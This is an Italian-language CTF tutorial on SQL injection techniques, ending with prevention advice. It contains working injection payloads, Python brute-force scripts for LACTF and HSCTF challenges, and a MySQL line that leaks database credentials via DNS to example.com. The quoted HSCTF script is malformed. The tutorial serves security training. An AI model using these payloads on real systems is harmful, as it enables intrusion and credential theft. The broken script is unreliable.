L'SQL injection è una vulnerabilità di *code injection*, ovvero permette all'attaccante di scrivere ed eseguire codice sul server host. È tanto semplice (da sfruttare ed evitare) quanto potenzialmente distruttiva.

### Logic SQLi
#### Presentazione vulnerabilità

Prendetevi un attimo per pensare a come implementereste una web application che permetta all'utente di eseguire una query. Prendiamo per esempio il seguente codice:

```sql
query = "SELECT id, name, points FROM teams WHERE name = '" + request.form['query'] + "'"
conn = sqlite3.connect("file:CTF_scoreboard.db", uri=True)
cursor = conn.cursor()

cursor.execute(query)
results = cursor.fetchall()
str_res = str(results)
```

Con `request.form['query']` il programma accetta l'input dell'utente, per poi eseguire la query e restituire il risultato. Prendetevi un po' di tempo, e provate a capire dove si trova l'errore.

Il programma di per sè funziona perfettamente, ma il fatto che la stringa fornita dall'utente venga semplicemente concatenata alla query, permette a quest'ultimo di chiudere la parentesi relativa alla stringa `name` e fare così ciò che vuole. Per farsi restituire l'intero contenuto della tabella, gli basterebbe fare in modo che la condizione sia sempre vera, ad esempio inserendo nel campo `query`:

`' or 'a'='a`
E verrebbe quindi eseguita la query `SELECT id, name, points FROM teams WHERE name = '' or 'a'='a'`.

#### Commenti

Ciò che è comune fare, quando possibile, è commentare il resto della query invece che cercare di completarla perfettamente. In questo caso, si è dovuto ricorrere al confronto tra stringhe in modo da "usare" l'ultimo apice, ma si è soliti usare questo tipo di payload:

`' or 1=1 -- `, che significa eseguire `SELECT id, name, points FROM teams WHERE name = '' or 1=1 -- '`.

In SQL il modo di scrivere commenti può variare a seconda del DBMS, ma `-- ` (notare lo spazio dopo i trattini) dovrebbe fornirvi il risultato desiderato in ogni situazione. In questo modo possiamo scrivere i comandi che vogliamo senza preoccuparci di cosa è scritto dopo il nostro payload, il che torna particolarmente utile in attacchi *blackbox* nei quali, di fatto, vaghiamo nel vuoto.

*Challenge d'esempio: https://training.olicyber.it/challenges#challenge-48*

### Union-Based SQLi
Una volta che siamo sicuri della nostra scoperta, possiamo spingerci oltre. La Logic SQLi appena mostrata permette "solo" di ottenere il contenuto della tabella selezionata o bypassare controlli booleani, ma ci sono anche comandi, come `UNION`, che ci permettono di ottenere dati da più tabelle.

In un contesto *whitebox*, non ci è richiesta chissà quale acrobazia. Basta ricordare la sintassi del comando, controllare nel codice il nome di tabelle e colonne, ed abbiamo a disposizione un leak dell'intero database. Inserendo nel campo `query`:

`' UNION SELECT * FROM players -- `
Verrà eseguita la query: `SELECT id, name, points FROM teams WHERE name = '' UNION SELECT * FROM players -- '`, *leakkando* così i dati dell'intera tabella `players`.

#### Database metadata
Se però ci trovassimo in uno scenario *blackbox*, non avremmo tutte queste informazioni. Dovremmo tirare a indovinare il nome della tabella e delle varie colonne corrispondenti, senza mai sapere se abbiamo scoperto tutte le colonne possibili o meno. 

In questi casi, torna utile l'`information_schema` del database. 
Si tratta di un prefisso per indicare le tabelle che contengono [metadati](https://it.wikipedia.org/wiki/Metadato) ("dati sui dati"). Tra le innumerevoli informazioni alle quali si può avere accesso raggiungendo queste tabelle, ci sono anche i nomi di tutte le tabelle create dall'utente e le relative colonne.

La sintassi usata in questa fase può cambiare molto tra un DBMS e un altro. I passaggi da eseguire invece rimangono gli stessi (esempi riferiti a MariaDB):

- ##### Trovare i nomi delle tabelle: `SELECT id, name, points FROM teams WHERE name = '' UNION SELECT 1, TABLE_NAME, 2 FROM INFORMATION_SCHEMA.TABLES -- '`.
- ##### Trovare i nomi delle colonne: `SELECT id, name, points FROM teams WHERE name = '' UNION SELECT 1, CONCAT(COLUMN_NAME, ' ', DATA_TYPE), 2 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'players'-- '`
- Abbiamo tutte le informazioni, e possiamo agire come stessimo risolvendo una challenge *whitebox*

#### Consigli
##### Verifica il DBMS usato
- La prima cosa da fare quando si approccia una challenge *blackbox*, una volta che ci si è assicurati della presenza di un'SQL injection, è quella di verificare il DBMS usato...
##### Prova i comandi su una demo
- ...Una volta fatto questo, potremo fare delle ricerce specifiche su internet per la sintassi (esistono anche delle cheat sheet specializzate per le SQLi, come quella di [PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)) e usare siti che ci permettono di provare i nostri comandi prima di eseguire delle query sul servizio che stiamo attaccando. Ad esempio, per verificare la correttezza delle query di questo capitolo, ho usato [sqliteonline](https://sqliteonline.com/), ovviamente avendo cura nel selezionare il DBMS giusto
##### Trova il nome di tabelle e colonne interessanti tra i metadati
- Le documentazioni possono risultare particolarmente dettagliate, o al contrario possono mancare delle descrizioni fondamentali di come vengono gestiti i metadati. In questi casi, usare un servizio come quelli riportati sopra (ad esempio selezionando tutti i dati possibili dall'information_schema del database di demo offerto dal servizio) ci permette di ottenere informazioni sulle colonne presenti nell'INFORMATION_SCHEMA più velocemente.
##### Filtra le informazioni su tabelle create automaticamente 
- Le tabelle presenti nel database possono essere VERAMENTE tante. In questi casi è utile trovare la discriminante che nei metadati distingue le tabelle generate automaticamente e quelle create da un programmatore/utente, ed aggiungere una condizione filtro. 
##### Se non trovi, cerca meglio invece di desistere
- L'`information_schema` o un suo equivalente è presente in tutti i DBMS. Se non trovate ciò che cercate, state cercando male.

#### Tips&Tricks
##### Trovare il numero di colonne
Se non sappiamo il numero di colonne, possiamo usare delle group by (esempi di [hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)):

```sql
1' ORDER BY 1--+    # eseguita correttamente
1' ORDER BY 2--+    # eseguita
1' ORDER BY 3--+    # eseguita
1' ORDER BY 4--+    # errore
```
In questo caso, la quarta `ORDER BY` va in errore, il che significa che la quarta colonna non esiste. Un altro metodo, che preferisco, è quello di selezionare vari valori nulli nella `UNION` in questo modo:

```sql
1' UNION SELECT null-- - # errore
1' UNION SELECT null,null-- - # errore
1' UNION SELECT null,null,null-- - # eseguita
```

Usando questo metodo, la query andrà in errore finchè non troveremo il numero preciso di colonne da selezionare. Ed ora è più facile...

##### Trovare il tipo delle colonne
Non sempre possiamo essere sicuri del tipo di colonne. Uno sviluppatore può decidere di salvare dei numeri come varchar, o di non mostrare una colonna selezionata. In tal caso, basta una piccola modifica all'ultima query mostrata e l'utilizzo di mock columns per trovare i tipi di tutte le colonne:

```sql
1' UNION SELECT 'a',null,null-- - # errore
1' UNION SELECT null,'a',null-- - # errore
1' UNION SELECT null,null,'a'-- - # eseguita
```

Quindi l'ultima colonna è un varchar.

```sql
1' UNION SELECT 1,null,'a'-- - # eseguita
1' UNION SELECT null,1,'a'-- - # errore
```

Quindi la prima colonna è un intero, e la seconda non è nè un intero nè un varchar.

### Blind SQLi
Può capitare che un campo vulnerabile non ci restituisca in output un risultato vero e proprio, ma un valore booleano. Pensiamo all'esempio di un login vulnerabile: con una logic SQLi possiamo accedere a qualsiasi account vogliamo. La blind SQLi ci permette di spingerci oltre, andando a ricavare con un semplice vero/falso possibilmente l'intero database.

`Christian_C' UNION SELECT 1 FROM users WHERE username='admin' AND password LIKE 'a%' -- `. Se la prima lettera della password dell'admin è `a`, verremo loggati come `Christian_C`. Assicuratevi che questo abbia senso nella vostra testa.

Automatizzando il processo, è possibile effettuare tutti i tentativi possibili e riuscire dopo qualche centinaio o migliaio di query ad ottenere l'intera password.

#### Consigli
##### Bruteforza con criterio
- Non provate ad injectare tutti i possibili 128 caratteri ASCII, o quantomeno fate in modo di provare come prima cosa i caratteri dell'alfabeto, i numeri e i simboli più comuni.
##### Se hai dei limiti temporali, fai meno richieste
- La velocità delle infrastrutture o i limiti di richieste al minuto possono rendere il processo molto lento. Molti DBMS permettono però di eseguire alcuni tipi di query che danno modo di scrivere dei programmi di exfiltration simili ad una ricerca binaria. In questi casi è estramente comoda la [string comparison](https://stackoverflow.com/a/26080240) di SQL.
##### Multitasking
- L'implementazione di una soluzione simile a quella appena presentata può risultare più difficile del previsto per mille motivi, tra cui la fretta e la pressione. Mentre provi ad ottimizzare la soluzione, esegui prima quella stupida, in modo da avere sempre un piano B e esfiltrare parte dell'informazione in anticipo.
##### Try-Catch e gestione degli errori
- Durante le gare possono andare storte mille cose nell'infrastruttura. Può essere che un carattere in particolare non sia recuperabile, o che le richieste ogni tanto si "inceppino" andando in time-out. I try-catch, `try-except` in Python, permettono al payload di continuare l'attacco anche in caso di errore, e premendo `CTRL+C` è possibile passare al tentativo successivo (mi è stato utile in una challenge della [HSCTF 2023](https://theromanxpl0.it/ctf_hsctf2023/2023/06/12/flagshop.html)). In generale, mettete delle pezze se necessario: *nessuno giudicherà il vostro codice finchè flagga*.

#### Esempio challenge: penguin-login LACTF 2024
In questa challenge, erano stati filtrati i commenti, i percento, e la keyword `LIKE`. PostgreSQL ha un comando molto simile al *blacklistato* `LIKE`, ovvero `SIMILAR TO`. Il primo script trova il numero di caratteri che compongono la flag, il secondo la esfiltra.
`findnum.py`
```py
from requests import *
from bs4 import BeautifulSoup

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = ""
i = 0

while True:
    payload = payloadStart + payloadEnd + "}"
    r = s.post(URL + "submit", data={"username": payload})
    soup = BeautifulSoup(r.text, "html.parser")
    if "We found a penguin" in soup.get_text():
        print("worked: ", payload)
        break
    else:
        payloadEnd += "_"
        print("failed: ", payload)
```

`findflag.py`
```py
from requests import *
from bs4 import BeautifulSoup
from string import digits, ascii_uppercase, ascii_lowercase

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = "______________________________________"
i = 0

while True:
    payloadEnd = payloadEnd[:-1]
    for c in digits + ascii_lowercase + ascii_uppercase + "!-@":
        payload = payloadStart + c + payloadEnd + "}"
        r = s.post(URL + "submit", data={"username": payload})
        soup = BeautifulSoup(r.text, "html.parser")
        if "We found a penguin" in soup.get_text():
            print("worked: ", payload)
            payloadStart += c
            break
        else:
            print("failed: ", payload)
    else:
        print("end: ", payload)
        break
```

### Error-based SQLi
In caso non avessimo a disposizione alcun output, abbiamo ancora delle alternative. La prima e più semplice è l'error-based SQLi. Se il sito restituisce un log o un feedback in caso di errore...


...possiamo ottenere informazioni come stessimo eseguendo una blind.

#### Dichiarazioni condizionali (conditional statement) - CASE WHEN
Mentre nell'esempio precedente di login avevamo un feedback, per il quale loggavamo in caso avessimo azzeccato il carattere, in questo caso siamo noi a mandare in errore il DBMS quando la nostra query soddisfa la condizione:

`Christian_C' UNION SELECT CASE WHEN (username='admin' AND password LIKE 'a%') THEN 1/0 ELSE 1 END FROM users -- `. Se la prima lettera della password dell'admin è `a`, verrà eseguita l'operazione 1/0, mandando in errore il DBMS, che ce lo mostrerà in output. Anche qui attenzione alle variazioni tra i vadi DBMS: la sintassi può essere diversa è in alcuni casi la divisione potrebbe non andare in errore.

### Time-based SQLi
Se sia l'output che gli errori non sono disponibili, è possibile effettuare un'SQLi basata sul tempo di risposta. In questi casi, quando la condizione viene soddisfatta, si fa in modo di ritardare la risposta del server. Il payload è molto simile a quello dell'error-based:

`Christian_C' UNION SELECT CASE WHEN (username='admin' AND password LIKE 'a%') THEN SLEEP(5) ELSE 1 END FROM users -- `. Se la prima lettera della password dell'admin è `a`, la risposta ci arriverà con 5 secondi di ritardo. 

#### Esempio challenge: big-blind HSCTF 2021 risolta da [bluebear](https://github.com/MOCSCTF/CTF-Write-UP/blob/master/Web/HSCTF8%20-%20big-blind/README.md)
```py
#!/usr/bin/env python3
import requests
import sys

def blind(query):
    url = "https://big-blind.hsc.tf/"
    response = requests.post(url, data={"user":"" +query+ ",sleep(5),0) #","pass":""})
    
    if(response.elapsed.total_seconds()>3):
    print query
    return 'Found'

    return response

keyspace = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$^&*()-=+'

query_left_side = "admin' and IF(1=(SELECT 1 FROM users WHERE pass LIKE '"
flag = ""
while True:
    for x in range(1,28):
        print x
        for k in keyspace:
        # query = admin' and IF(1=(SELECT 1 FROM users WHERE pass LIKE 'flag%'),sleep(10),0) #
        query = query_left_side + flag + k + "%')"
        response = blind(query)

        if response == 'Found':
            flag += k
            break

        if k == '+':
            flag += '_'
```

### Batched/stacked queries
Nelle injection precedenti, siamo sempre rimasti "coerenti" con la query scelta dal programmatore. Trovando nel codice sempre `SELECT`, non abbiamo fatto altro che esfiltrare dati "allungando" l'istruzione. È pero possibile il `;` per terminare l'istruzione, permettendo così di inserire poi qualsiasi tipo di istruzioni, comprese `DELETE`, `UPDATE` (aggiorna), `INSERT` (crea).

Nel nostro caso sarà utile il caso opposto: potremmo voler chiudere un'`UPDATE` per injectare una `SELECT`, in modo da rubare la flag.

### Out of band SQLi
Se non è presente alcun output sincrono, ma è permessa l'esecuzione di comandi, possiamo optare per una out-of-band SQLi. In MySQL:

```sql
SELECT load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.', (SELECT+password),'.',example.com\\test.txt'))
```

manda una query DNS a `database_version.database_user.database_password.example.com`, permettendo al proprietario del dominio di visualizzare versione del database, username e password dell'utente.


*Challenge riassuntive, le ultime 4: https://training.olicyber.it/challenges#challenge-356 / https://ctf.cyberchallenge.it/challenges#challenge-13*

*Allenamento: Categoria web 2 di CyberChallenge. Se non si ha accesso, PortSwigger Academy: https://portswigger.net/web-security/all-labs#:~:text=SQL%20injection*


### Remediation e mitigation
Le SQLi si possono prevenire facilmente grazie ai [prepared statements](https://www.w3schools.com/php/php_mysql_prepared_statements.asp), evitando le stored procedures se non siete assolutissimamente sicuri di ciò che state facendo e che non potreste fare la stessa cosa con dei prepared statements (cosa improbabile).

Anche se fare questo è facile, può capitare di sbagliarsi o di non star lavorando da soli. Per mitigare i rischi, è sempre bene non consentire l'uso di batched queries, rimuovere gli accessi da admin e DBA agli account usate dalle applicazioni, ed usare sempre una connessione read-only a meno che non sia strettamente necessario il contrario.

*Avanzato: Dare accesso a views invece che alle tabelle. Whitelistare i comandi che devono poter essere eseguiti da requisiti tecnici del servizio.*